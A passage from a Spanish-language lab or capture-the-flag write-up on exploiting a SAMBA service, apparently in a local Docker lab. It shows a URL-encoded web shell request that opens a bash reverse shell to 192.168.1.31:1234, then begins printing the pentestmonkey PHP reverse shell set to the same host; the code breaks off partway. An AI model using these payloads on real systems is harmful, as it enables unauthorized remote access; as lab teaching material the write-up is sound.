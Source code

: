 y en el navegador
```
172.17.0.2/pwned.php?cmd=%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%33%31%2f%31%32%33%34%20%30%3e%26%31%22
```


Si comprobamos el `netcat`, vemos que obtuvimos una `reverse shell`.
![](img/Pasted%20image%2020241215195858.png)


---
## **Explotación 2**

Otra forma de explotar el servicio de **SAMBA**, es en vez de crear un `web shell`, podemos crear directamente una `reverse shell` y subirla al servicio y ejecutarla.

### Creamos una REVERSE SHELL
Con la herramienta `nano`, creamos una fichero llamado **exploit.php** que va ser la `reverse shell` que subiremos al `smb` y el código lo podemos encontrar en el github de [pentesterMokey][[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php] y cambiamos la *IP* y el *puerto*. 
```
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.31';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
```